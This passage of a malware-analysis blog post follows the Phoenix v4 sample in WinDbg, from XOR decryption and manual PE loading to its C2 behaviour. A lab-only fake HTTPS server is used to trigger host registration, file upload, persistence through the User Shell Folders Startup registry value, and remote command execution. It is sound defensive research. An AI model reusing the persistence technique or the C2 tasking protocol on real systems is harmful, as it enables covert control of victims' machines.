rax=000001ab8f640000 <- destination
rdx=00007ff770f413e0 <- source
r8 =000000000007dd00 <- count
0:000> db @rax L20
000001ab`8f640000  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
000001ab`8f640010  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0:000> db @rdx L20
00007ff7`70f413e0  28 3e e7 66 74 65 72 67-76 74 62 74 72 98 8b 35  (>.ftergvtbtr..5
00007ff7`70f413f0  68 c1 68 79 36 6d 67 68-74 62 27 62 74 35 62 79  h.hy6mghtb'bt5by
0:000> p
phoenix+0x3158:
00007ff7`70f33158 4c8d05a16e0900  lea     r8,[phoenix+0x9a000 (00007ff7`70fca000)]
0:000> db @rax L20
000001ab`8f640000  28 3e e7 66 74 65 72 67-76 74 62 74 72 98 8b 35  (>.ftergvtbtr..5
000001ab`8f640010  68 c1 68 79 36 6d 67 68-74 62 27 62 74 35 62 79  h.hy6mghtb'bt5by
```

All right we now have the encrypted executable in the newly allocated memory region, all
that is left is to see if the decryption actually produces a real program.

```asm
0:000> g
[+][+] Rechead xor_decrypt [+][+]
phoenix+0x316b:
00007ff7`70f3316b e810e3ffff      call    phoenix+0x1480 (00007ff7`70f31480)
0:000> r rcx, rdx, r8
rcx=000001ab8f640000 <- encrypted buffer
rdx=000000000007dd00 <- size
r8 =00007ff770fca000 <- encryption key
0:000> db @r8 L20
00007ff7`70fca000  65 64 77 66 77 65 72 67-72 74 67 74 72 67 74 35  edwfwergrtgtrgt5
00007ff7`70fca010  68 79 68 79 36 68 67 68-74 62 67 62 74 35 62 79  hyhy6hghtbgbt5by
0:000> p
phoenix+0x3170:
00007ff7`70f33170 4c8d4c2468      lea     r9,[rsp+68h]
0:000> db 000001ab8f640000 L80
000001ab`8f640000  4d 5a 90 00 03 00 00 00-04 00 05 00 00 ff ff 00  MZ..............
000001ab`8f640010  00 b8 00 00 00 05 00 00-00 00 40 00 00 00 00 00  ..........@.....
000001ab`8f640020  05 00 00 00 00 00 00 00-00 00 00 05 00 00 00 00  ................
000001ab`8f640030  00 00 00 00 00 00 05 00-00 00 00 00 00 00 00 00  ................
000001ab`8f640040  00 05 f0 00 00 00 0e 1f-ba 0e 00 b4 05 09 cd 21  ...............!
000001ab`8f640050  b8 01 4c cd 21 54 68 05-69 73 20 70 72 6f 67 72  ..L.!Th.is progr
000001ab`8f640060  61 6d 05 20 63 61 6e 6e-6f 74 20 62 65 05 20 72  am. cannot be. r
000001ab`8f640070  75 6e 20 69 6e 20 44 4f-05 53 20 6d 6f 64 65 2e  un in DO.S mode.
```

Those `MZ` bytes indicate that we have indeed ended up with a Windows executable. So now
all we need to observe is the entry point that `manual_map_pe` will spit out and set a
breakpoint there.

```asm 
0:000> g
[+][+] Rechead manual_map [+][+]
phoenix+0x31af:
00007ff7`70f331af e8bcf7ffff      call    phoenix+0x2970 (00007ff7`70f32970)
0:000> r rcx
rcx=000001ab8f6df000
0:000> db @rcx L20
000001ab`8f6df000  4d 5a 90 00 03 00 00 00-04 00 00 00 ff ff 00 00  MZ..............
000001ab`8f6df010  b8 00 00 00 00 00 00 00-40 00 00 00 00 00 00 00  ........@.......
0:000> p
phoenix+0x31b4:
00007ff7`70f331b4 4889842480000000 mov     qword ptr [rsp+80h],rax 
0:000> r rax
rax=000001ab8f8d3458
0:000> !address @rax

Usage:                  <unknown>
Base Address:           000001ab`8f8a1000
End Address:            000001ab`8f8f9000
Region Size:            00000000`00058000 ( 352.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000020          PAGE_EXECUTE_READ
Type:                   00020000          MEM_PRIVATE
Allocation Base:        000001ab`8f8a0000
Allocation Protect:     00000040          PAGE_EXECUTE_READWRITE


Content source: 1 (target), length: 25ba8
0:000> bp @rax ".echo [+][+] We have entered the phoenix [+][+]"
0:000> g
[+][+] We have entered the phoenix [+][+]
000001ab`8f8d3458 4883ec28        sub     rsp,28h
```

Awesome, we made it. We observed a binary decrypting and loading another binary in its
memory. Reminds me of this type of [Russian doll](https://en.wikipedia.org/wiki/Matryoshka_doll).

## Rising from ash: Phoenix v4

I am going to run the extracted payload as its own executable. We already watched the loader hand execution over to it, so this should make the rest of the debugging a bit easier to follow and reproduce. But before we dive in, we need to do something about its outgoing HTTPS requests. I do not want the sample talking to the real C2 server (even if that domain is down), so let's give it a fake one instead.

From our previous findings, we know that the malware contacts two hosts: `api.ipify.org` to retrieve its public IP, and `netivtech.org` for its C2 communication. The idea is to redirect both names to a server that I control and return predictable responses while watching how the malware reacts.

I put my Windows VM on a host-only network, with its NAT and bridged connections disabled. This lets the guest communicate with my host machine without giving it access to the internet. My host has the address `172.16.35.1` on this virtual network.

Next, I added these entries to the Windows hosts file at `C:\Windows\System32\drivers\etc\hosts`:

```plaintext
172.16.35.1 api.ipify.org
172.16.35.1 netivtech.org
```

The malware still requests the same hostnames, but Windows now resolves them to my machine.

There is one more *catch*: 

These connections use HTTPS. Redirecting the hostname gets the request to our machine, but the client still needs to accept the server's certificate. So, I created a certificate authority and used it to sign a server certificate covering both hostnames. I then trusted that CA inside the Windows VM.

With that in place, we just need to write a small python server.

```python
#!/usr/bin/env python3
import ssl
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def reply(self, body, status=200):
        self.send_response(status)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Content-Length", str(len(body)))
        self.send_header("Connection", "close")
        self.end_headers()
        self.wfile.write(body)
        self.close_connection = True

    def do_GET(self):
        hostname = self.headers.get("Host", "").split(":")[0].lower()

        if hostname == "api.ipify.org" and self.path == "/":
            self.reply(b"<Your-IP>")
        else:
            self.reply(b"Not found", 404)

    def log_message(self, format, *args):
        print(f"[HTTP] {format % args}", flush=True)

# This deals with the ssl certs we made
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain("server.crt", "server.key")

server = HTTPServer(("172.16.35.1", 443), Handler)
server.socket = context.wrap_socket(server.socket, server_side=True)

print("Lab HTTPS server listening on 172.16.35.1:443", flush=True)
server.serve_forever()
```

This first iteration server will just return `<Your-IP>` when the Windows VM tries to
access it. Let's run this server on my host machine and check if its reachable by the VM.

<aside class="thought">irm is a command that send GET requests. I'm trying Windows commands, when in rome you know ...</aside>


```powershell
PS C:\Users\Sammy> irm https://api.ipify.org
<Your-IP>
```

All right so that worked. Let's actually give it a proper IP. `200.133.37.67` looks like a
good IP :)

Now there is **another** catch to consider, we need a way to monitor the folder, file,
registry key creation process. Fortunately, there is `procmon`. A tool that will allow us
to monitor, in real-time, the file system, registry and process activity.

With all that in consideration. Let's begin.

```asm
bp malware+0x85a0 ".echo [-][-] Reached WinMain             [-][-]"
bp malware+0x8635 ".echo [-][-] Reached retrieve_public_ip  [-][-]"
bp malware+0x868e ".echo [-][-] Reached CreateDirW          [-][-]"
bp malware+0x86eb ".echo [-][-] Reached SetFileAttrW        [-][-]"
bp malware+0x8711 ".echo [-][-] Reached copy_exec_to_dir    [-][-]"
bp malware+0x8720 ".echo [-][-] Reached Register_c2         [-][-]"
```

These will be the first set of breakpoints. Right now we just want to observe:
- Recovering the IP
- Creating the `C:\ProgramData\Logs` folder and copying the executable there
- Reaching the main C2 loop

I know, from looking at the decompiled pseudo-code, that the buffer where the public IP
will be placed into is at `malware+0x71458`. So let's keep an eye on that for our first
breakpoint. 

```asm
[-][-] Reached WinMain 		[-][-]
malware+0x85a0:
00007ff6`179f85a0 48895c2408      mov     qword ptr [rsp+8],rbx 
0:000> g
[-][-] Reached retrieve_public_ip 	[-][-]
malware+0x8635:
00007ff6`179f8635 e816b6ffff      call    malware+0x3c50 (00007ff6`179f3c50)
0:000> da poi(malware+0x71458)
000002dc`d48d0000  ""
0:000> p
malware+0x863a:
00007ff6`179f863a 488d4dd0        lea     rcx,[rbp-30h]
0:000> da poi(malware+0x71458)
000002dc`d48d0000  "200.133.37.67"
```

Beautiful, We have recovered our IP. Now let's see if we can catch the folder and file
creation in action.

```asm
[-][-] Reached CreateDirW 		[-][-]
malware+0x868e:
00007ff6`179f868e ff15ec8e0600    call    qword ptr [malware+0x71580 (00007ff6`17a61580)] 
0:000> r rcx
rcx=0000026130450c20
0:000> du rcx
00000261`30450c20  "C:\ProgramData\Logs"
0:000> g
[-][-] Reached SetFileAttrW 		[-][-]
malware+0x86eb:
00007ff6`179f86eb ff15978e0600    call    qword ptr [malware+0x71588 (00007ff6`17a61588)]
0:000> r rcx
rcx=00000261303b53b0
0:000> du rcx
00000261`303b53b0  "C:\ProgramData\Logs"
0:000> p
malware+0x86f1:
00007ff6`179f86f1 660f6f0587d20500 movdqa  xmm0,xmmword ptr [malware+0x65980 (00007ff6`17a55980)] 
```

Okay so `winDbg` is telling us that it worked but let us check on `procmon`.



Great! We can see a bunch of activity happening here. The folder did get created and now I
see a `C:\ProgramData\Logs` folder in my VM.



We see an empty folder, let's advance our debugger and see what happens. Skipping the
output of the debugger and checking `procmon` we see the following.



Okay, a lot of activity is happening but, Thankfully, I am nice and I highlighted the one
line you need to check. I am also nice enough to rewrite the command here :laugh: 

```powershell width=120%
Copy-Item -Path 'C:\Users\Sammy\Desktop\TestMe\malware.exe' -Destination 'C:\ProgramData\Logs' -Force"
```




Malware copied!

Now we need to upgrade our python server so that we can interact with the C2 functionality
in more fun ways. I know that the malware authors intended to be able to upload a file to
an infected machine, persist through altering registry keys, execute arbitrary shell
commands. So Let us try and replicate all those. We will start by sending a simple
`Internal Server Error`. Just to test our server one more time. 

We are going to add this to `do_GET`:


```python
elif hostname == "netivtech.org" and self.path == "/request":
    self.reply(b"Internal Server Error") 
```

And add this `do_POST` function:

```python
def do_POST(self):
    hostname = self.headers.get("Host", "").split(":")[0].lower()

    # Read the registration or heartbeat data sent by the malware.
    length = int(self.headers.get("Content-Length", "0"))
    body = self.rfile.read(length)
    print(f"POST {self.path}: {body!r}")

    if hostname == "netivtech.org" and self.path in ("/register", "/imalive"):
        self.reply(b"OK")
    else:
        self.reply(b"Not found", 404)
```

All right, now that we have that underway, let us set some new breakpoints.

```text
bp malware+0x82AA ".echo [*][*] Reached build_host_reg_data     [*][*]"
bp malware+0x82C1 ".echo [*][*] Reached sending host data       [*][*]"
bp malware+0x839C ".echo [*][*] Reached sending hearbeat signal [*][*]"
bp malware+0x8442 ".echo [*][*] Reached Recieve task            [*][*]"
bp malware+0x851D ".echo [*][*] Reached strcmp with server error[*][*]"
```

```asm
0:000> g
[*][*] Reached build_host_reg_data	[*][*]
malware+0x82aa:
00007ff6`179f82aa e871d4ffff      call    malware+0x5720 (00007ff6`179f5720)
0:000> r rcx
rcx=000000edf6cff940
0:000> p
malware+0x82af:
00007ff6`179f82af 90              nop
0:000> da poi(000000edf6cff940)
00000261`3040b7b0  "DESKTOP-VA7576H\Sammy:10.0, 1904"
00000261`3040b7d0  "5:5"
0:000> g
[*][*] Reached sending host data	[*][*]
malware+0x82c1:
00007ff6`179f82c1 e8eac2ffff      call    malware+0x45b0 (00007ff6`179f45b0)
0:000> r rcx, rdx
rcx=000000edf6cff920 rdx=000002613040b7b0
0:000> du poi(rcx)
00000261`303f03c0  "/register"
0:000> da rdx L20
00000261`3040b7b0  "DESKTOP-VA7576H\Sammy:10.0, 1904"
0:000> p
ModLoad: 00007ffc`0dc90000 00007ffc`0dca7000   C:\Windows\system32\OnDemandConnRouteHelper.dll
malware+0x82c6:
00007ff6`179f82c6 0fb6d8          movzx   ebx,al
```

So by now we should have received some data on our server. Let's check if that happened or
not.

```plaintext
POST /register: b'REVTS1RPUC1WQTc1NzZIXFNhbW15OjEwLjAsIDE5MDQ1OjU='
[HTTP] "POST /register HTTP/1.1" 200 -
```

We see some base64 encoded data. Decoding it gets us ...

```bash
Sammy Phoenix_v4 $ base64 -d <<< REVTS1RPUC1WQTc1NzZIXFNhbW15OjEwLjAsIDE5MDQ1OjU= && echo
DESKTOP-VA7576H\Sammy:10.0, 19045:5
```

That is the same string we encountered in our debugger, so that is a good sign things are
working. But decoding every message we get will get annoying so lets add same base64
decoding logic to our script.

```python
import base64
...
...
...
    def do_POST(self):
        ...
        ...
        body = self.rfile.read(length)
        
        decoded = base64.b64decode(body) 
        print(f"POST {self.path}: {decoded.decode('utf-8')}")

        if hostname == "netivtech.org" and self.path in ("/register", "/imalive"):
            self.reply(b"OK")
        ...
        ...
```

Moving along ...

```asm
0:000> g
[*][*] Reached Recieve task		[*][*]
malware+0x8442:
00007ff6`179f8442 e809c4ffff      call    malware+0x4850 (00007ff6`179f4850)
0:000> r rcx, rdx
rcx=000000edf6cff900 rdx=000000edf6cff970
0:000> du poi(rcx)
00000261`3041cd60  "/request"
0:000> p
malware+0x8447:
00007ff6`179f8447 488bd8          mov     rbx,rax
0:000> da poi(000000edf6cff970)
00000261`31ff0000  "Internal Server Error"
```

Our command is reaching the malware. Let's keep iterating on our python script. There are
3 things I would like to see if I can pull off.

- Upload a file into the VM from my host machine through this C2 function
- Persist through a reboot. As in I want to see the malware try and reconnect to my server
  after I shut the VM down.
- Try to pop a calculator through shell commands

Let us begin with the file upload. The `/upload` endpoint requires 3 things, **destination
path**, **file size** and **file content**. So for our test, let's see if we can upload a file with
the following content to `C:\Analysis\received-test.txt`:

```text
Hello from the other side.
```


Here is what the python script looks like with all that logic added in.

```python
#!/usr/bin/env python3
import ssl
from http.server import BaseHTTPRequestHandler, HTTPServer
import base64

with open("upload-test", "rb") as f:
    UPLOAD_DATA = f.read()
UPLOAD_DESTINATION = rb"C:\Analysis\received-test.txt"
class Handler(BaseHTTPRequestHandler):
    upload_command_sent = False
    upload_stage        = 0
    def reply(self, body, status=200):
        self.send_response(status)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Content-Length", str(len(body)))
        self.send_header("Connection", "close")
        self.end_headers()
        self.wfile.write(body)
        self.close_connection = True

    def do_GET(self):
        hostname = self.headers.get("Host", "").split(":")[0].lower()
        if hostname == "api.ipify.org" and self.path == "/":
            self.reply(b"200.133.37.67")
            return
        if hostname != "netivtech.org":
            self.reply(b"Not found", 404)
            return
        if self.path == "/request":
            if not Handler.upload_command_sent:
                Handler.upload_command_sent = True
                print("[LAB] Sending upload command")
                self.reply(base64.b64encode(b"upload"))
            else:
                self.reply(b"Internal Server Error")
        elif self.path == "/upload":
            responses = (
                    ("destination", UPLOAD_DESTINATION),
                    ("size", str(len(UPLOAD_DATA)).encode()),
                    ("contents", UPLOAD_DATA),
                    )
            stage = Handler.upload_stage
            if stage >= len(responses):
                self.reply(b"Internal Server Error")
                return
            label, data = responses[stage]
            Handler.upload_stage += 1
            print(f"[LAB] Upload {label}: {data!r}")
            self.reply(base64.b64encode(data))
        else:
            self.reply(b"Not found", 404)
    
    def do_POST(self):
        hostname = self.headers.get("Host", "").split(":")[0].lower()
        # Read the registration or heartbeat data sent by the malware.
        length = int(self.headers.get("Content-Length", "0"))
        body = self.rfile.read(length)
        decoded = base64.b64decode(body)
        print(
            f"POST {self.path}: {decoded.decode('utf-8', errors='replace')}"
        )
        if hostname == "netivtech.org" and self.path in ("/register", "/imalive", "/uplaod"):
            self.reply(b"OK")
        else:
            self.reply(b"Not found", 404)

    def log_message(self, format, *args):
        print(f"[HTTP] {format % args}", flush=True)

# This deals with the ssl certs we made
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain("server.crt", "server.key")
server = HTTPServer(("172.16.35.1", 443), Handler)
server.socket = context.wrap_socket(server.socket, server_side=True)
print("Lab HTTPS server listening on 172.16.35.1:443", flush=True)
server.serve_forever()
```

Let's run this malware in the debugger again but this time lets just break around the
upload file function which is around `malware+0x850C`. I will spare you all the
debugging and troubleshooting and just show you the end product.

<video class="work-video" controls preload="metadata" playsinline data-work-video="file_upload.webm" aria-label="Debugger demonstration of the malware receiving a file from its command-and-control server">
  Your browser does not support WebM video.
</video>

Great!. We were able to upload a file, our next task is to persist over a restart. 

I want to observe a few things with this persistence feature. 

1. The registry key being modified, so we will need to have `procmon` open for that. 
2. The fake server getting a new heartbeat request when the VM restarts
3. The `malware.exe` present as a process when I open Task Manager.

Before we debug here is the updated python script.

```python
#!/usr/bin/env python3
import ssl
from http.server import BaseHTTPRequestHandler, HTTPServer
import base64

class Handler(BaseHTTPRequestHandler):
    persistence_command_sent = False
    def reply(self, body, status=200):
        self.send_response(status)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Content-Length", str(len(body)))
        self.send_header("Connection", "close")
        self.end_headers()
        self.wfile.write(body)
        self.close_connection = True

    def do_GET(self):
        hostname = self.headers.get("Host", "").split(":")[0].lower()
        if hostname == "api.ipify.org" and self.path == "/":
            self.reply(b"200.133.37.67")
            return
        if hostname != "netivtech.org":
            self.reply(b"Not found", 404)
            return
        if self.path == "/request":
            if not Handler.persistence_command_sent:
                Handler.persistence_command_sent = True
                print("[LAB] Sending persistence command")
                self.reply(base64.b64encode(b"persist"))
            else:
                self.reply(b"Unknown command")
        else:
            self.reply(b"Not found", 404)

    def do_POST(self):
        hostname = self.headers.get("Host", "").split(":")[0].lower()
        # Read the registration or heartbeat data sent by the malware.
        length = int(self.headers.get("Content-Length", "0"))
        body = self.rfile.read(length)
        decoded = base64.b64decode(body)
        print(
            f"POST {self.path}: {decoded.decode('utf-8', errors='replace')}"
        )
        if hostname == "netivtech.org" and self.path in ("/register", "/imalive", "/persist"):
            self.reply(b"OK")
        else:
            self.reply(b"Not found", 404)

    def log_message(self, format, *args):
        print(f"[HTTP] {format % args}", flush=True)

# This deals with the ssl certs we made
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain("server.crt", "server.key")
server = HTTPServer(("172.16.35.1", 443), Handler)
server.socket = context.wrap_socket(server.socket, server_side=True)
print("Lab HTTPS server listening on 172.16.35.1:443", flush=True)
server.serve_forever()

```
To begin this debug session we just need 3 breakpoints. One right at the persist call and
one right before the registry key will be open and then modified. They are at `malware+0x84D6`, `malware+0x6901` and
`malware+0x696b` respectively.

```asm
0:000> bp malware+0x84d6
0:000> bp malware+0x6901
0:000> g
Breakpoint 0 hit
malware+0x84d6: <- persist command
00007ff6`f71984d6 e815e1ffff      call    malware+0x65f0 (00007ff6`f71965f0)
0:000> g
Breakpoint 1 hit
malware+0x6901:
00007ff6`f7196901 ff15d1ab0600    call    qword ptr [malware+0x714d8 (00007ff6`f72014d8)] 
0:000> r rcx, rdx, r8, r9
rcx=ffffffff80000001 rdx=0000024718410730 r8=0000000000000000 r9=0000000000000002
0:000> du rdx 
00000247`18410730  "Software\Microsoft\Windows\Curre"
00000247`18410770  "ntVersion\Explorer\User Shell Fo"
00000247`184107b0  "lders"

 -> `Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders` 

 0:000> bp malware+0x696B
0:000> g
Breakpoint 2 hit
malware+0x696b:
00007ff6`f719696b ff1587ab0600    call    qword ptr [malware+0x714f8 (00007ff6`f72014f8)] ds:00007ff6`f72014f8={advapi32!RegSetValueExW (00007ffd`3c2e6f80)}
0:000> r rcx, rdx, r8, r9
rcx=00000000000002f8 rdx=00000247183ade40 r8=0000000000000000 r9=0000000000000002
0:000> du rdx
00000247`183ade40  "Startup"
0:000> p
malware+0x6971:
00007ff6`f7196971 85c0            test    eax,eax
```



All right we see that the malware opens: 
```powershell
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```
and targets the `Startup` value inside it. This value tells Windows where to find the current user’s Startup folder.

The malware changes that location to `C:\ProgramData\Logs`, where we already saw it copy its executable. So, Instead of placing itself in the usual Startup folder, it makes its own directory the Startup folder. Pretty neat.

Now let's restart the VM and without launching the malware ourselves, lets see if the persistence command worked, we should see fresh heartbeat requests on our fake server, and `malware.exe` running in Task Manager.


<video class="work-video" controls preload="metadata" playsinline data-work-video="persistance-video.webm" aria-label="persistance working!!!">
  Your browser does not support WebM video.
</video>

This one is a bit of a longer video, but we can see that the persistence command worked.
We have one more task left. Let us update our python script for the last time.

```python
#!/usr/bin/env python3
import ssl
from http.server import BaseHTTPRequestHandler, HTTPServer, ThreadingHTTPServer
import base64
import threading
import time

class Handler(BaseHTTPRequestHandler):
    shell_command_sent  = False
    calc_command_sent   = False
    state_lock          = threading.Lock()
    def reply(self, body, status=200):
        self.send_response(status)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Content-Length", str(len(body)))
        self.send_header("Connection", "close")
        self.end_headers()
        self.wfile.write(body)
        self.close_connection = True

    def do_GET(self):
        hostname = self.headers.get("Host", "").split(":")[0].lower()
        if hostname == "api.ipify.org" and self.path == "/":
            self.reply(b"200.133.37.67")
            return
        if hostname != "netivtech.org":
            self.reply(b"Not found", 404)
            return
        if self.path == "/request":
            with Handler.state_lock:
                send_shell_command = not Handler.shell_command_sent
                Handler.shell_command_sent = True
            if send_shell_command:
                print("[LAB] Sending cmd task")
                self.reply(base64.b64encode(b"cmd"))
            else:
                self.reply(base64.b64encode(b"Unkown command"))
        elif self.path == "/cmd":
            with Handler.state_lock:
                send_calc = not Handler.calc_command_sent
                Handler.calc_command_sent = True
            if send_calc:
                print("[LAB] Sending calc.exe")
                self.reply(base64.b64encode(b"calc.exe\r\n"))
            else:
                time.sleep(2)
                self.reply(base64.b64encode(b"\r\n"))
        else:
            self.reply(b"Not found", 404)

    def do_POST(self):
        hostname = self.headers.get("Host", "").split(":")[0].lower()
        # Read the registration or heartbeat data sent by the malware.
        length = int(self.headers.get("Content-Length", "0"))
        body = self.rfile.read(length)
        decoded = base64.b64decode(body)
        print(
            f"POST {self.path}: {decoded.decode('utf-8', errors='replace')}"
        )
        if hostname == "netivtech.org" and self.path in ("/register", "/imalive", "/cmd"):
            self.reply(b"OK")
        else:
            self.reply(b"Not found", 404)

    def log_message(self, format, *args):
        print(f"[HTTP] {format % args}", flush=True)

# This deals with the ssl certs we made
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain("server.crt", "server.key")
server = HTTPServer(("172.16.35.1", 443), Handler)
server.socket = context.wrap_socket(server.socket, server_side=True)
print("Lab HTTPS server listening on 172.16.35.1:443", flush=True)
server.serve_forever()
```

We have that setup now, lets just run our server and just click on `malware.exe`.
Hopefully this works :crossed_fingers:

<video class="work-video" controls preload="metadata" playsinline data-work-video="calc.webm" aria-label="popped a calc">
  Your browser does not support WebM video.
</video>


